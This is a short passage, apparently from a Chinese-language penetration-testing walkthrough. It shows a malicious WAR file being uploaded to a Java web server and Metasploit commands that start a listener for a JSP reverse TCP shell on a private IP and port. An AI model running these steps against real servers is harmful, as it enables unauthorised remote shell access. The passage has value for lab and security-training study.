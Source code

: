 

#### 上传war包

![image-20250321151539625](assets/image-20250321151539625.png)

![image-20250321151547205](assets/image-20250321151547205.png)

成功上传



#### msfconsole开启监听

```
msfconsole
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set lhost 192.168.1.3
set lport 283
run
```
